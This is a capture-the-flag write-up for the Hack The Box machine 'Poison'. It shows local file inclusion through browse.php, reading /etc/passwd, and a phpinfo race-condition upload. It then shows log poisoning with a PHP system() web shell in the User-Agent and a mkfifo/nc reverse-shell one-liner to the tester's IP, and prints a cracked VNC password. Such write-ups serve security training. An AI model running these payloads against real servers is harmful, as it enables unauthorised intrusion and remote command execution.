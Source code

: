 # Alternative way to exploit Poison

## Local File Inclusion (LFI)

Instead of finding the Base64-encoded file, there are other ways to get a shell on the box.

When looking at the _phpinfo.php_ there is a line that shows that the `file_uploads` function is active.
This means that by uploading a temporary file, _phpinfo.php_ will show where it is located and use a **Local File Inclusion** to execute it.

### Testing the LFI

Lets submit any filename to the application and send it through a proxy like **Burpsuite**:
```markdown
GET /browse.php?file=testing HTTP/1.1
Host: 10.10.10.84
(...)
```

When submitting a valid page like _index.php_, it gets executed and the output is shown.
Using PHP commands to display the source code of _index.php_:
```markdown
GET /browse.php?file=php://filter/convert.base64-encode/resource=index.php
```

After sending this request, it displays the source code of _index.php_ but Base64-encoded:
```markdown
PGh0bWw+Cjxib2R5Pgo8aDE+VGVtcG9yYXJ5IHdlYnNpdGUgdG8gdGVzdCBsb2NhbCAucGhwIHNjcmlwdHMuPC9oMT4KU2l0ZXMgdG8gYmUgdGVzdGVkOiBpbmkucGhwLCBpbmZvLnBocCwgbGlzdGZpbGVzLnBocCwgcGhwaW5mby5waHAKCjwvYm9keT4KPC9odG1sPgoKPGZvcm0gYWN0aW9uPSIvYnJvd3NlLnBocCIgbWV0aG9kPSJHRVQiPgoJU2NyaXB0bmFtZTogPGlucHV0IHR5cGU9InRleHQiIG5hbWU9ImZpbGUiPjxicj4KCTxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTdWJtaXQiPgo8L2Zvcm0+Cg==
```

The string can be decoded to show the source code:
```markdown
cat index.b64 | base64 -d
```

This also allows to get other files on the server like _/etc/passwd_ for example:
```markdown
GET /browse.php?file=/etc/passwd
```

This proofs that **LFI** is working.

### Code Execution with phpinfo

With `file_upload` enabled, it is possible to upload files that PHP accepts and those will be stored in a cached directory. When executing them with the LFI vulnerability, we get potential code execution.

This is explained in [this paper from InsomniaSec](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf).

The request method has to be _POST_ and the _Content-Type_ is also changed and the whole request looks like this:
```markdown
POST /phpinfo.php HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.84/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=--Test
Content-Length: 0

----Test
Content-Disposition: form-data; name="anything"; filename="testfile"
Content-Type: text/plain

This is a test string
----Test
```

After sending the request and looking at the PHP variables, we see that the data is included in there:

![Phpinfo variables](poison_phpinfo-1.png)

The cached file has the name _/tmp/phpNdOnxX_ and will be there for a short time.
To access the cached file, we will use the script from the paper that will try to win a Race Condition. It can also be found in the [PayloadAllTheThings GitHub repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py).

The Python script has to be modified accordingly.
I used the _php-reverse-shell_ from **Laudanum** as the payload and my IP and port 9001 as the listener.
```markdown
python poison_phpinfolfi.py 10.10.10.84 100
```

After a while the listener on my IP and port 9001 spawns a reverse shell on the box!

### Code Execution with Log Poisoning

The LFI can also be used for **Log Poisoning**.
When looking at the log file _/var/log/httpd-access.log_ it also shows the User-Agent:
```markdown
10.10.14.39 - - [02/May/2020:10:59:24 +0200] "GET / HTTP/1.1" 200 289 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

It is possible to modify this with **Burpsuite**:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Test'
```
```markdown
10.10.14.39 - - [02/May/2020:11:07:22 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1657 "http://10.10.10.84/" "Test'"
```

When using PHP code in the User-Agent, it gets executed:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php echo('Test'); ?>
```

There are no PHP tags but instead just the _"Test"_ string.
```markdown
10.10.14.39 - - [02/May/2020:11:09:42 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1953 "http://10.10.10.84/" "Test"
```

This means PHP Code Execution works and it is possible to run system commands:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($\_REQUEST['cmd']); ?>
```

Executing any system command:
```markdown
http://10.10.10.84/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a
```
```markdown
10.10.14.39 - - [02/May/2020:11:16:11 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a HTTP/1.1" 200 3172 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Lets execute a PHP reverse shell:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=mkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+|nc+10.10.14.39+9002+>/tmp/f HTTP/1.1
```

The listener on my IP and port 9002 starts a reverse shell as the user _www_.

## Cracking the VNC password

The _secret_ file is an encrypted password but there are [tools on GitHub](https://github.com/jeroennijhof/vncpwd) to decrypt it:
```markdown
./vncpwd secret
```

The password is:
> VNCP@$$!
